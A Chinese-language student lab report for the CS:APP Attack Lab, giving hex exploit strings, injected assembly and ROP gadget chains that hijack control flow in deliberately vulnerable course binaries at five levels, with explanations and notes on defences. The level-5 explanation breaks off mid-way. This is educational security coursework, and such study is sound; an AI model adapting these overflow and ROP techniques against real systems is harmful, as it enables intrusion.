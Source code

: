 # ICSⅠ Lab3 报告

计算机科学与技术

19307130296

孙若诗

## 运行截图

* **level1**  
![avatar](level1.png)  
* **level2**  
![avatar](level2.png)
* **level3**
![avatar](level3.png)
* **level4**
![avatar](level4.png)
* **level5**
![avatar](level5.png)

## 字符答案

* **level1**  
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c0 17 40 00 00 00 00 00
* **level2**
48 c7 c7 fa 97 b9 59 68
ec 17 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
* **level3**
48 c7 c7 a8 dc 61 55 68
fa 18 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
35 39 62 39 39 37 66 61
* **level4**
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00
a2 19 40 00 00 00 00 00
ec 17 40 00 00 00 00 00
* **level5**
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
06 1a 40 00 00 00 00 00
a2 19 40 00 00 00 00 00
ab 19 40 00 00 00 00 00
48 00 00 00 00 00 00 00
dd 19 40 00 00 00 00 00
70 1a 40 00 00 00 00 00
13 1a 40 00 00 00 00 00
d6 19 40 00 00 00 00 00
a2 19 40 00 00 00 00 00
fa 18 40 00 00 00 00 00
35 39 62 39 39 37 66 61

## 解题过程

* **level1**
&emsp;&emsp;阅读getbuf及touch1对应的汇编语句片段，即下图。
![avatar](touch1.png)
&emsp;&emsp;发现getbuf第一句申请了0x28即40个byte的栈空间，如果get的大小超过缓冲区，将产生溢出。
&emsp;&emsp;原本进入getbuf之前栈顶存储的应当是下一句执行语句的位置，则将溢出值设置为touch1开始位置4017c0，可以误导程序调用touch1。
因此答案字符串即为：任意40个byte来填满缓冲区（0a除外，因为它代表\n，会让程序误以为读入结束），后接c0 17 40 00 00 00 00 00，采取小端法。16进制数两个一组，恰好为1个byte；八组一行，整洁直观，便于检查。
&emsp;&emsp;使用cat level1.txt | ./hex2raw | ./ctarget -q验证答案正确。

* **level2**
&emsp;&emsp;阅读touch2，发现它要求调用前%rdi的值已经被赋为cookie。因此我们需要执行自己的代码，可以利用缓冲区注入。movq可以用于赋值，而pushq可以把touch2的首地址压入栈中，之后ret。则getbuf后栈中从上到下（栈底到栈顶）的内容为：ret-pushq-movq（此句位于%rsp地址）-%rsp首地址，执行顺序为：跳转到%rsp-赋值-压栈-返回-读栈顶开始执行touch2。
注入汇编代码如下：

```S
movq $0x59b997fa, %rdi
pushq $0x4017ec
ret
```

&emsp;&emsp;用gcc -c level.s和objdump -d level.o > level.d指令得到机器码，将它注入缓冲区开头。为了让程序从缓冲区开头开始执行，缓冲区后溢出处所放地址应当为%rsp的地址。用gdb在getbuf设置断点，查询出%rsp的地址，具体操作如下。
![avatar](rsp.png)
&emsp;&emsp;因此答案字符串为：注入代码机器码+仍旧补字符到40byte+%rsp首地址。

* **level3**
&emsp;&emsp;阅读touch3，发现要求传递的参数为字符串指针类型，这意味着我要预先找地方把字符串存下，再把地址传给%rdi。且hexmatch会随机修改栈，因此如果我们把字符串存在栈中touch3首地址之后的位置，调用touch3时这部分栈已经被执行并处于%rsp之下，hexmatch申请的新buf就可能覆盖这一段栈，字符串的内容可能会被改变。为了方便起见，（以及我并不需要顾虑我的行动如何破坏了之前的栈，只要正确执行完touch3就达到目的，所以可以不负责任地乱放），不妨就把它放到getbuf栈帧之前，即test栈帧。
&emsp;&emsp;有趣的是，我们注入的代码显然也会位于touch3之后，为什么不担心它被覆盖呢？这是由于这些代码被执行之后，我们的目的已经达到，寄存器已经被正确修改，所以即使它们被覆盖也无所谓；但是我们为%rdi传入的是字符串指针的地址，后续使用的具体值仍然要到原地址去查找，所以它被覆盖是我们不能接受的。
&emsp;&emsp;此外，我们还需要把八位的cookie按字符串格式翻译成16进制，man ascii指令可以调出ASCII码表，按位对照查找即可。
&emsp;&emsp;进入解题步骤，getbuf申请了0x28个byte，我们再向前推一个地址，即%rsp+0x30。首先用gdb语句查询出该地址：0x5561dca8，我们在%rsp地址之后继续溢出8个byte，将这个地址内容改为16进制字符串即可。
![avatar](brforebuf.png)
&emsp;&emsp;movq和pushq流程与level2类似，要注入的代码为：

```S
movq $0x5561dca8, %rdi
pushq $0x4018fa
ret
```

&emsp;&emsp;因此答案字符串即为：注入代码机器码+仍旧补字符到40byte+%rsp首地址+16进制字符串。

* **level4**
&emsp;&emsp;这一部分和之前的区别是开了栈随机化和栈不可执行，因此我们不能直接注入自己的代码了，只能从farm.c指定的代码片中截取机器码执行。注意仍旧是反汇编rtarget，不是farm.c，farm.c只是指出rtarget中哪一部分函数是允许使用的。
&emsp;&emsp;每一句我们截取的机器码都必须以代表ret的c3结尾，这会让程序以为这个函数结束了，从而继续从栈上取地址，我们才能够保持程序一直在我们的控制当中。我们需要的机器码和c3之间可能有一些90，但是它代表空指令，并不会产生影响。
&emsp;&emsp;由于原机器码中可用的指令十分有限，我们或许不能像前几个level一样采取最直接的方式达到目的。不过既然它作为一道题目出现在这，就说明一定是可以解的，所以只要在ROPtable上试了足够多的方案，总是能找到通路的。
&emsp;&emsp;注意到我们能使用的指令只有原代码中指令，register之间的movq、popq、movl、andq、orq、cmpq、testq这几种。因此指望直接把cookie赋给%rdi是不现实的。但是0x4019ab处提供了popq %rax，我们可以提前把cookie写到栈里，再用popq自然地把值转移到%rax。随后幸运地发现%rax到%rdi的赋值也可以用，则随后压入touch2首地址即可。
&emsp;&emsp;总结来说，栈中的内容从底到顶为：touch2-movq-cookie-popq，执行顺序为：弹栈给%rax，同时cookie被pop-赋值-调用touch2.
&emsp;&emsp;我们要执行的代码片为:

```S
popq %rax
movq %rax, %rdi
```

&emsp;&emsp;因此答案字符串即为：40个byte+popq机器码+cookie+movq机器码+touch2首地址。

* **level5**
&emsp;&emsp;这次我们仍旧需要把存好的字符串地址传给%rdi，和level4不同的是，存字符串的位置不能再touch3调用之后，因此不能直接用popq找到值。为此，考虑赋地址的指令lea，再rtarget中搜索，发现0x4019d6处恰好有一条lea (%rdi,%rsi,1),%rax，非常适合做这种操作。

&emsp;&emsp;围绕这条指令，我们有如下的思路：将%rdi赋为%rsp，将%rsi赋为偏移量，得到%rax后再赋给%rdi。但是由于指令集的限制，我们并不能很直接地实现我们的目的。

```S
popq
```

## 实验总结

1. 了解了程序在缓冲区溢出时存在的安全漏洞，栈随机化（PIE）和栈不可执行（NX）能够在一定程度上提供防护，但仍旧可以通过ROP方法绕过防护。Canary，即push被保存的寄存器后，push一个canary离开时检查是否被修改，能够提供更有效的保护。开始感觉安全攻防是很有意思的系统实践。
2. 对执行语句和变量地址在栈中的存储和使用顺序有了更清晰的认识。
3. 思考ROP方法中截取机器码的过程，只是在栈中加入了对应机器码的首地址，就可以执行对应命令。可见计算机能够自动识别机器码的开头，并猜测每个开头对应的机器码需要是唯一的，只有这样计算机才知道之后到哪里截止是一条完整的指令。这十分类似哈夫曼树的构造规则，开头互异是消除歧义的有效规定。
4. 关于ROP方法，比漫无目的地尝试更有效的策略是检索farm.c对应代码片中所有可用的指令，然后以寄存器为节点、mov关系为边建立一张图，以能够pop的寄存器作为起点，可以比较清晰地看出可行的变量传递路径。但是这样做的工作量太大了，如果有多个level5规模的需求，可以考虑实施。
5. 有关实验过程中的更多文件和源代码，可查阅[lab3-attack](https://github.com/moyiii-ai/ICS-2020/tree/main/lab3-attack)。感谢老师和助教学长的指导。
